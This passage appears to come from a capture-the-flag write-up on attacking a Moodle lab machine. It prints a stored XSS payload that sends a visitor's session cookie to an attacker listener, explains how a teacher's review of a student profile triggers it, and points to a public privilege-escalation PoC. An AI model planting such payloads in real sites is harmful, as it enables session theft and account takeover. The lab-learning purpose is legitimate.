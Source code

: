 **Payload**
```html
<script>var i=new Image;i.src="http://10.10.15.71:8000/?"+document.cookie;</script>
```

save payload in `moodlenetprofile` field and wait.

![](/assets/img/posts/schooled/xss-exploited.png)

this happened because xss payload saved in user profile and when other user visit to that user's profile script executed on there browser.

From mathematics Lecturer "Manuel Phillips" course Announcements `http://moodle.schooled.htb/moodle/mod/forum/discuss.php?d=5`: "For students who wish to attend my lectures be sure that you have your MoodleNet profile set." when user enroll in his course, **teacher review that student profile**.

So when "Manuel Phillips" visit our profile, xss payload get executed in his browser and we get his session cookie.

![](/assets/img/posts/schooled/become-math-teacher.png)

## Privilege Escalation in "Moodle"

PoC from [HoangKien1020@github](https://github.com/HoangKien1020/CVE-2020-14321)

### From teacher to manager role
